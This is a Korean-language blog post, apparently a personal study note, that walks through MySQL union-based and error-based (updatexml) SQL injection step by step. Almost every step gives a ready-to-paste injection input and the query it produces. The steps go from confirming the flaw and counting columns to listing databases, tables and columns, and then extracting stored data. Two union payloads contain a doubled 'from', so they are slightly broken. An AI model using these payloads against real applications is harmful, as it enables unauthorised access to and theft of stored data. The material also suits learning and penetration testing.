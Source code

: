 ```yaml
---
title: "Union SQLi 과 Error Based SQLi 과정 정리"
excerpt: "sql injection 보다 쉽게 할 수 있는 과정을 정리하였다."
tags:
    - Mysql
    - DB
    - sql injection
last_modified_at: 2023-04-24T09:13:00-05:00
---
```

# 환경
    - MYSQL 서버

<br><br>
# 질의문의 결과가 화면에 보일때.
- 게시판(글이 화면에 나옴), 회원정보(마이페이지), 주소검색, 검색페이지 등


## Union SQL Injection 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명 like '%----%' ...`
2. **SQL Injection** 취약점 존재하는지 확인하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' and '1%'='1%' ...`
	- 입력 = `test%' and '1%'='1`
3. 컬럼수 찾기.
	- `order by` 를 이용하여 1씩 증가 시키면서 컬럼수를 찾아준다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' order by 1 -- %' ...`
	- 입력 = `test%' order by 1 -- `
4. data 출력 위치 파악하기.
	- 위에서 찾은 컬럼수를 이용하여 data 출력 위치 파악하기.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1','2','3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1','2','3','4' from dual -- `
5. database 이름 출력하기.
	- 위에서 파악한 출력위치를 이용하여 DB 이름을 알아보자.
	- `select database() from dual` 명령을 이용하면 현재 DB 명이 나온다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',database(),'3','4' from dual -- %' ...`
	- 입력 = `test%' union select '1',database(),'3','4' from dual -- `
6. table 이름 출력하기.
	- 위에서 파악한 DB이름을 이용하여 존재하는 테이블명을 알아보자.
	- `select table_name from information_schema.tables where table_schema='DB명'` 명령을 이용하면 테이블명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- %' ...`
	- 입력 = `test%' union select '1',table_name,'3','4' from from information_schema.tables where table_schema='DB명' -- `
7. column 이름 출력하기.
	- 위에서 파악한 table 이름을 이용하여 table의 컬럼명을 알아보자.
	- `select column_name from information_schema.columns where table_name='테이블명'` 명령을 이용하면 해당 table의 컬럼명을 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- %' ...
	- 입력 = `test%' union select '1',column_name,'3','4' from information_schema.columns where table_name='테이블명' -- `
8. 정보 빼오기.
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명 like '%test%' union select '1',column명,'3','4' from table명 -- %' ...`
	- 입력 = `test%' union select '1',column명,'3','4' from table명 -- `
<br><br>




<br><br>

# 질의문의 결과가 화면에 안보일때.
- 로그인, 아이디 중복 체크.

## 조건
- Error 메시지가 화면에 출력될때. ( **Error Bases SQL Injection** ) 

## Error Based SQL Injection 과정
1. 서버에서 어떤 질의문을 사용하는지 추측하기.
	- 질의문 추측 = `select xxxx from xxx where 컬럼명='----' ...`
2. 오류 발생 확인하기. ( db 에러인지 확인하기 )
	- 입력 = `' asd`
	- **syntax error 발생(문법 에러)** 가 발생하는 것을 확인이 가능한지 본다.
3. Error Based SQL Injection Function 동작하는지 확인하기.
	- Syntax error (문법에러) : 문법 틀리면 안됨. 컴파일 할 때 잡아낸다.
	- 논리에러 : 실행이된다.
	- 즉 우리는 논리에러를 발생시켜야 한다.
	- **updatexml** 함수를 이용하자!
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,'test'), null) and '1'='1`
	- `XPATH syntax error: ':test'` 에러를 볼 수 있다.
	- `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(SQL)), null) and '1'='1' ...` test 대신 질의문을 넣어주면 된다.
4. Database 이름 출력하기.
	- `select database() from dual`  로 DB 명 찾기
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select database() from dual)), null) and '1'='1`
5. table 이름 출력하기.
	- `select table_name from information_schema.tables where table_schema='DB명' limit 0,1` 로 table 명 찾기.
	- 오류는 하나의 데이터만 보여줄 수 있다. 따라서 출력을 1개로 제한하였다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1' ...` 
	- 입력 = `1' and updatexml(null, concat(0x3a,(select table_name from information_schema.tables where table_schema='DB명' limit 0,1)), null) and '1'='1`
	- `limit` 를 조절하면서 원하는 테이블명을 찾는다.
6. column 이름 출력하기.
	- `select column_name from information_schema.columns where table_name='테이블명' limit 0,1` 로 table에 해당하는 column명 찾기.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column_name from information_schema.columns where table_name='테이블명' limit 0,1)), null) and '1'='1`
7. 정보 빼오기
	- 위에서 파악한 table명과 해당 table에 대한 column 명을 이용하여 정보를 빼오자!
	- `select column명 from table명 limit 0,1` 명령을 이용하여 저장된 정보를 알 수 있다.
	- 질의문 = `select xxxx from xxx where 컬럼명='1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1' ...`
	- 입력 = `1' and updatexml(null, concat(0x3a,(select column명 from table명 limit 0,1)), null) and '1'='1`